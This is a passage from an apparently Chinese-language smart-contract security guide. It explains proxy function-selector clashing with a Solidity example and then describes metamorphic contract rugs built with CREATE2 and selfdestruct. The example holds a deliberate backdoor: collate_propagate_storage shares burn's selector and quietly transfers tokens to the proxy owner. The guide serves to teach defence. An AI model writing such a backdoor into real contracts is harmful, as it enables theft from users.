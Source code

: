 ```solidity
    }

    function () payable external {
        address impl = implementation;

        assembly {
            calldatacopy(0, 0, calldatasize)
            let result := delegatecall(gas, impl, 0, calldatasize, 0, 0)
            returndatacopy(0, 0, returndatasize)

            switch result
            case 0 { revert(0, returndatasize) }
            default { return(0, returndatasize) }
        }
    }
    
    // This is the function we're adding now
    function collate_propagate_storage(bytes16) external {
        implementation.delegatecall(abi.encodeWithSignature(
            "transfer(address,uint256)", proxyOwner, 1000
        ));
    }
}
```
因为：
```solidity
$ pocketh selector "collate_propagate_storage(bytes16)"
0x42966c68

$ pocketh selector "burn(uint256)"
0x42966c68
```
如果一个用户想要调用`burn()`，本来代理合约中没有`burn`函数所以会触发`fallback()`从而执行逻辑合约中的`burn`，但是因为函数选择器相同，所以`EVM`选择了执行`collate_propagate_storage(bytes16)`

### Refer
https://forum.openzeppelin.com/t/beware-of-the-proxy-learn-how-to-exploit-function-clashing/1070

https://blog.nomic.foundation/malicious-backdoors-in-ethereum-proxies-62629adf3357

https://proxies.yacademy.dev/pages/security-guide/

## 4.Metamorphic Contract Rug Vulnerability
`CREATE2` 操作码是在君士坦丁堡硬分叉中通过 `EIP-1014` 引入的。与 `CREATE` 操作码不同，它允许将合约部署在可以提前计算的地址。可以部署一个合约，用 `selfdestruct` 销毁合约，然后在与原始合约相同的地址部署一个具有不同代码的新合约。如果用户不知道该地址的代码自最初与合约交互以来发生了变化，他们最终可能会与恶意合约进行交互。计划删除 `EIP-4758` 中的 `selfdestruct` 操作码将消除未来创建变质合约的能力。

### Example
https://ethereum-magicians.org/t/potential-security-implications-of-create2-eip-1014/2614
https://github.com/pcaversaccio/tornado-cash-exploit
